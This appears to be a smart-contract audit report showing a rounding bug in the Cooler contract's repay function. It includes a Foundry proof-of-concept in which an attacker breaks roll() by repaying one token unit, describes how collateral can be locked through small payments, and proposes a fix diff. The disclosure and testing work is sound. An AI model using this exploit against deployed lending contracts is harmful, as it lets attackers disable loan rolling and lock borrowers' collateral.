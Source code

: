 Allarious

high

# Payment function can cause desync between `collateral` and the `amount`

## Summary
The `repay` function does not calculate the amount of  `collateral` that is related to `repaid` correctly and can cause a desync between `loan.collateral` and `loan.amount`

## Vulnerability Detail
The `repay` function can be used by the borrower or anyone in the network to repay the debt to the lender gradually. However, since the collateral calculation uses division, solidity rounds down the collateral amount, making in possible for collateral and the amount to become desynced. This is more important in two cases:

* If the `loan.amount` is much more than `loan.collateral`. In other words, the collateral token is way more valuable than the loan token.
* If the decimal points in the two ERC20 tokens is implemented differently and other than 1e18

the desync between the collateral can have side effects:

* The line below in `roll` function might underflow and disable the `roll` functionality. Any attacker in the network can break this functionality by paying a small amount of the debt. However, equation `interest + 1 < loan.amount/loan.collateral` should hold true for this attack to work. This is because the minimum payment should pay the interest and be small enough to not change the collateral. In the PoC below, attacker can pay 1e-18 of the debt token and break the funcitonality since the interest rate is zero.
```solidity
uint256 newCollateral = collateralFor(loan.amount, req.loanToCollateral) - loan.collateral;
```
* It can cause some of the collateral get locked inside the contract and not accessible by the owner or anyone else. The attacker can use this property and lock all the collateral of the borrower by paying all of the position in small payments. This means that anyone can default a position and the price is paying the position's debt to the lender + gas fees of the small transactions.

## Impact
Cooler.sol, line 115
Cooler.sol, line 140

## Code Snippet
Both of the round down bug and break the roll functionality can be found below:
```solidity
  contract testRepayRoundDown is Test {
    ERC20 public token1;
    ERC20 public token2;

    CoolerFactory public factory;
    Cooler public cooler;

    address public lender;
    address public borrower;
    address public attacker;

    uint256 LENDER_INITIAL_BALANCE = 1e20 ether;
    uint256 BORROWER_INITIAL_BALANCE = 1e20 ether;
    uint256 ATTACKER_INITIAL_BALANCE = 1e20 ether;

    function setUp() public {
        lender = vm.addr(1);
        borrower = vm.addr(2);
        attacker = vm.addr(3);

        token1 = new ERC20("token1", "TK1"); // Collateral
        token2 = new ERC20("token2", "TK2"); // Debt

        token1.mint(lender, LENDER_INITIAL_BALANCE);
        token2.mint(lender, LENDER_INITIAL_BALANCE);

        token1.mint(borrower, BORROWER_INITIAL_BALANCE);
        token2.mint(borrower, BORROWER_INITIAL_BALANCE);

        token1.mint(attacker, ATTACKER_INITIAL_BALANCE);
        token2.mint(attacker, ATTACKER_INITIAL_BALANCE);

        factory = new CoolerFactory();
        cooler = Cooler(factory.generate(token1, token2));
    }

    function testSmallPayment() public {
        vm.startPrank(borrower);
        token1.approve(address(cooler), 1e20 ether);
        uint256 reqID = cooler.request(
            1e30, // maps to 1e20 collateral
            0, // to make things easier here, interest does not matter here
            1e28, // exchange rate of 1 to 1e10!
            10 days
        );
        vm.stopPrank();

        vm.startPrank(lender);
        token2.approve(address(cooler), 1e30);
        uint256 loanID = cooler.clear(reqID); // lender takes the deal
        vm.stopPrank();

        assertEq(cooler.getCollateralOf(loanID), 1e20); // added getCollateralOf and getAmountOf as a getter function for test purposes, they fetch the collateral and amount of a loanID
        assertEq(cooler.getAmountOf(loanID), 1e30);

        /**
         * We pay one less than the threshold needed to pay to show that collateral does not decrease
         */

        address owner = address(this); // this test contract is the owner of the Cooler contract deployed

        uint256 previousBorrowerCollateralBalance = token1.balanceOf(owner);

        vm.startPrank(borrower);
        token2.approve(address(cooler), 1e30); // approving more than needed for future payments
        cooler.repay(loanID, 1e10 - 1);
        vm.stopPrank();

        // console.log(cooler.getCollateralOf(loanID));
        // console.log(cooler.getAmountOf(loanID));

        assertEq(cooler.getCollateralOf(loanID), 1e20); // collateral stays the same
        assertEq(cooler.getAmountOf(loanID), 1e30 - (1e10 - 1)); // while the amount payed decreases
        assertEq(token1.balanceOf(owner), previousBorrowerCollateralBalance);

        /**
         * Now we pay enough to show that the collateral changes
         */
        
        previousBorrowerCollateralBalance = token1.balanceOf(owner);

        vm.startPrank(borrower);
        cooler.repay(loanID, 1e10);
        vm.stopPrank(); 

        assertLt(cooler.getCollateralOf(loanID), 1e20); // collateral decreased
        assertLt(cooler.getAmountOf(loanID), 1e30 - (1e10 - 1)); // amount decreased
        assertGt(token1.balanceOf(owner), previousBorrowerCollateralBalance); // balance increase
    }

    /**
     * Breaking the roll functionality
     */
    function testBreakRollFunctionality() public {
       vm.startPrank(borrower);
        token1.approve(address(cooler), 1e20 ether);
        uint256 reqID = cooler.request(
            1e30, // maps to 1e20 collateral
            0, // Attacker should pay more than the interest of a loan position while not updating the collateral to break the roll functionality. It would happen easily with interest of 0 percent.
            1e28, // exchange rate of 1 to 1e10!
            10 days
        );
        vm.stopPrank();

        vm.startPrank(lender);
        token2.approve(address(cooler), 1e30);
        uint256 loanID = cooler.clear(reqID); // lender takes the deal
        vm.stopPrank();

        assertEq(cooler.getCollateralOf(loanID), 1e20); // added getCollateralOf and getAmountOf as a getter function for test purposes, they fetch the collateral and amount of a loanID
        assertEq(cooler.getAmountOf(loanID), 1e30); 

        vm.startPrank(attacker);
        token2.approve(address(cooler), 1); // Attacker can break the functionality by paying only 1 of the token!
        cooler.repay(loanID, 1);
        vm.stopPrank();

        vm.expectRevert(stdError.arithmeticError); // Underflow happens
        vm.prank(borrower);
        cooler.roll(loanID);
    }
}
```

## Tool used

Manual Review

## Recommendation
The main problem arises from the repay function, it can be fixed by changing the repay function according to the diff shown bellow:
```solidity
@@ -110,16 +110,18 @@ contract Cooler {
 
         if (block.timestamp > loan.expiry) 
             revert Default();
+
+       require(loan.collateral * repaid > loan.amount, "payment too low");
         
         uint256 decollateralized = loan.collateral * repaid / loan.amount;
+        uint256 repaidCorrection = decollateralized * loan.amount / loan.collateral;
+        assert(repaidCorrection <= repaid);
 
         if (repaid == loan.amount) delete loans[loanID];
         else {
-            loan.amount -= repaid;
+            loan.amount -= repaidCorrection;
             loan.collateral -= decollateralized;
         }
 
-        debt.transferFrom(msg.sender, loan.lender, repaid);
+        debt.transferFrom(msg.sender, loan.lender, repaidCorrection);
         collateral.transfer(owner, decollateralized);
     }
```
